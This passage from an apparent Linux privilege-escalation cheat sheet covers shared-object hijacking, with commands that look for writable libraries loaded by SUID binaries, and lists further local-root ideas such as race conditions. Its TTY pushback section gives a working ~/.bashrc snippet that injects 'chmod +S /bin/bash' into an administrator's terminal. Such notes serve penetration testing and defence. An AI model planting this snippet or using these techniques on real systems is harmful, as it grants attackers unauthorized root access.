 ## Shared Object Hijacking

DLL Hijacking on Linux.

Search order:

1. Directories hardcoded into the executable's `RPATH`
2. Directories specified in the `LD_LIBRARY_PATH` environment variable
3. Directories listed in the executable's `RUNPATH` value
4. Directories specified in `/etc/ld.so.conf`
5. System library directories like `/lib`, `/lib64`, `/usr/lib`, `/usr/lib64`, `/usr/local/lib`, `/usr/local/lib64`, and potentially more

Check if libraries loaded by SUID/SGID binaries can be modified.

~~~ bash
ldd $binary | sed -E 's|^\t||; s| =>.*?$||; s|\(.*?\)$||;' | xargs -r -I {} -- find /lib* /usr/lib* /usr/local/lib* -maxdepth 10 -name '{}' -ls 2> /dev/null
strace $binary 2>&1 | grep -iE 'open|access|no such file'
~~~

## TTY Pushback

If you control a user and an admin switches to your user via `su` (without `-P`) or `sudo` (while `use_pty` is not enabled) you can write shell commands into the admins TTY.

This can be exploited by adding the following snippet to your `~/.bashrc`:

~~~ bash
cat << 'EOF' | python3
import fcntl, os, signal, sys, termios
os.kill(os.getppid(), signal.SIGSTOP)
for char in ' set +o history\nchmod +S /bin/bash\nfg\nreset\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
EOF
~~~

References:

- [The oldest privesc: injecting careless administrators' terminals using TTY pushback](http://web.archive.org/web/20230312123234/https://www.errno.fr/TTYPushback.html)

## More Ideas

- [Local root exploits - Modified system environment](http://web.archive.org/web/20221201212324/https://www.win.tue.nl/~aeb/linux/hh/hh-12.html)
  - close file descriptor 2 before `exec()`, the next file that is opened and written to gets printed to stderr instead
  - `exec()` with modified `argv[0]`
  - cause a disk full condition in the right moment
  - cause a stack overflow in the right moment by shrinking the stack size with `ulimit -s 100`
  - kill the target program in the right moment by setting up an alarm signal to be sent after a prespecified time and fork off the target binary
- [Race conditions](http://web.archive.org/web/20221201212330/https://www.win.tue.nl/~aeb/linux/hh/hh-9.html)
  - predictable temporary file names
  - time of check time of use issues (TOCTOU)
    - slow down execution
      - deep symlinks
      - scheduling priority
